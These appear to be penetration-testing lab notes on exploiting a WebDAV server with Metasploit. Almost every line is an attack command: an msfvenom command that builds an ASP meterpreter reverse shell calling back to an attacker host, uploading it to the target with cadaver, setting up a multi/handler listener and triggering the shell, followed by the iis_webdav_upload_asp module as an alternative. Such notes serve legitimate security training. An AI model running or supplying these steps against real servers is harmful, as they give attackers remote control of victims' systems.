 #### Exploiting webdav with metasploit
- nmap -sV -p 80 --script=http-enum 10.2.30.223
- msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.5.2 LPORT=1234 -f asp >shell.asp [this will create a reverse asp shell in attacker current directory]
- now we use cadaver to upload this shell [ cadaver http://10.2.30.223 ]
- put /root/shell.asp
- now we go to browser http://10.2.30.223/webdav this will lists all the files in webdav.We can execute the files but before executing we will start msfconsole and multi handler
- service postgresql start
- use multi/handler
- set payload windows/meterpreter/reverse_tcp [ use the same payload which also used for generating msfvenom shell ]
- show options
- set LHOST and LPORT [ which host and port also used for generating shell]
- run
- now go to the browser and click the uplaoded shell.This will give meterpreter shell.

#### using msf module
- search iis upload
- use exploit/windows/iis/iis_webdav_upload_asp
- now we need to set username,password,host, port,path,payloads also
